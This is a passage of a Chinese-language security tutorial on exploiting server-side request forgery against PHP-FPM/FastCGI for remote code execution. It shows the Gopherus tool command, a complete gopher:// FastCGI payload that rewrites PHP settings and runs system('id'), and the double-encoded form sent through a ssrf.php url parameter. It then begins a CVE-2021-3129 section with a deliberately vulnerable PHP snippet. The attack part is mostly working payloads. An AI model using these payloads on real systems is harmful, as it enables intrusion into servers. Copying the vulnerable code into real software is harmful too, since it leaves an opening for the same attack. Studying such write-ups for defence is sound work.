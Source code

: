 [Gopherus](https://github.com/tarunkant/Gopherus) 这个工具相比上一个更加方便一下，该工具能生成Gopher有效负载，用来利用SSRF进行RCE：

![image-20210501213539122](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fabafc9950e4769bade61c34c59f1a12be868c21.png)

下面我们就利用这个工具来执行命令：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的php文件
id
```

![image-20210501213618775](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-de6743220d42ec993b8980937e9577dc42ff3eb7.png)

如上图所示获得payload：

```python
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的payload内容放到?url=后面发送过去即可：

```python
/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

如下图所示，命令执行成功：

![image-20210501213753652](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0a4f485c3adf628210a4bbfd92d217901de09394.png)

FTP - SSRF 攻击 FPM/FastCGI
-------------------------

这是在之前复现Laravel Debug mode RCE（CVE-2021-3129）漏洞时学到的一个思路。该漏洞的核心就是传入 file\_get\_contents() 和 file\_put\_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到RCE的效果。

漏洞代码大致可以简化为如下代码：

```php
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

